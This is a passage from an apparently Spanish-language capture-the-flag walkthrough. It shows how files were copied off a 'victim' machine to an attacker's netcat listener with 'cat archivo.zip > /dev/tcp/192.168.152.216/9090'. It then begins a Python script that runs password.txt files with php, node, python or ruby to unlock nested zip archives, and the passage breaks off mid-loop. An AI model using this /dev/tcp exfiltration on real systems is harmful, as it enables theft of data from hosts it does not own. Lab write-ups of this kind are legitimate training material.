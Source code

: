 Una vez restaurados, tendremos que pasarnos ambos a nuestra máquina atacante, ya que no contamos ni con zip ni 7z. Como tampoco contamos con python3, haremos lo siguiente:

Primero escuchamos con netcat de la siguiente manera:

```css
nc -nlvp 9090 > archivo.zip
```

Luego desde la máquina victima ejecutamos lo siguiente:

```css
cat archivo.zip > /dev/tcp/192.168.152.216/9090
```

y hacemos lo mismo para el password.txt.

Ahora si nos fijamos, el archivo.zip tiene contraseña, pero nos la dan en el password.txt al ejecutar ese archivo con el lenguaje que nos dice en el comentario de la primera línea. El problema de esto, es que parecen ser muchisimos archivos así, y que siempre el password.txt está o en `python`, `ruby`, `php` o `javascript`, por lo que sabiendo esto crearemos un script en python que lo que haga sea revisar el password.txt, ver en que lenguaje está y luego ejecutar el password.txt según el lenguaje que corresponda. 

## Script:

```python
import os
import subprocess


def manejar_php():
    result = subprocess.run(['php', 'password.txt'], capture_output=True, text=True)
    password = result.stdout.strip()
    comando = ['7z', 'x', f'-p{password}', '-aoa', 'archivo.zip']
    result = subprocess.run(comando, capture_output=True, text=True)
    print(result.stdout)
def manejar_javascript():
    result = subprocess.run(['node', 'password.txt'], capture_output=True, text=True)
    password = result.stdout.strip()
    comando = ['7z', 'x', f'-p{password}', '-aoa', 'archivo.zip']
    result = subprocess.run(comando, capture_output=True, text=True)
    print(result.stdout)
def manejar_python():
    result = subprocess.run(['python', 'password.txt'], capture_output=True, text=True)
    password = result.stdout.strip()
    comando = ['7z', 'x', f'-p{password}', '-aoa', 'archivo.zip']
    result = subprocess.run(comando, capture_output=True, text=True)
    print(result.stdout)
def manejar_ruby():
    result = subprocess.run(['ruby', 'password.txt'], capture_output=True, text=True)
    password = result.stdout.strip()
    comando = ['7z', 'x', f'-p{password}', '-aoa', 'archivo.zip']
    result = subprocess.run(comando, capture_output=True, text=True)
    print(result.stdout)
patrones_a_funciones = {
    'PHP': manejar_php,
    'JavaScript': manejar_javascript,
    'Python': manejar_python,
    'Ruby': manejar_ruby
}



while True:
    encontrado = False

```